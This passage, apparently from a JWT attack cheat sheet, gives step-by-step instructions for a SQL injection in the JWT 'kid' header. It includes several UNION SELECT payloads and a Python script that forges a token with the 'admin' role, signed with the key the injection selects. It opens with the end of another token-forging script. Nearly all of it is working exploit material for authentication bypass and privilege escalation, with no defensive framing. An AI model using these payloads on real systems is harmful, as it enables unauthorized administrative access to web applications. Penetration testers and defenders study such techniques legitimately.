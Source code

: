        # Create new JWT
       new_jwt = jwt.encode(payload, secret, algorithm="HS256", headers=header)
       
       print(new_jwt)
       ```

    2. **KID header SQL injection attack**:
       - Step 1: Identify JWT using a `kid` parameter
       - Step 2: Analyze how the application retrieves keys based on this parameter
       - Step 3: Craft SQL injection payloads for the `kid` parameter
       - Step 4: Create a JWT with the injected `kid` and appropriate claims
       - Step 5: Sign the token with a known value based on your injection
       - Step 6: Send the modified token to the server
       - Example injection: `kid: "98765' UNION SELECT 'attackerkey' --"`
       - For this example, sign with "attackerkey" as the secret
       - More examples:
         - `kid: "non-existent-id' UNION SELECT 'mykey';--"`
         - `kid: "0' UNION SELECT '12345';--"`
       - Testing insight: Try boolean-based injections to determine if SQL injection is possible
       - Python script for SQL injection in `kid`:
       ```python
       import jwt
       
       # Create header with SQL injection in kid
       header = {
           "alg": "HS256",
           "typ": "JWT",
           "kid": "98765' UNION SELECT 'attackerkey' --"
       }
       
       # Create payload with admin privileges
       payload = {
           "sub": "1234567890",
           "role": "admin",
           "iat": 1516239022
       }
       
       # Sign with the value that will be selected by the SQL injection
       secret = "attackerkey"
       
       # Create new JWT
       token = jwt.encode(payload, secret, algorithm="HS256", headers=header)
       
       print(token)
       ```
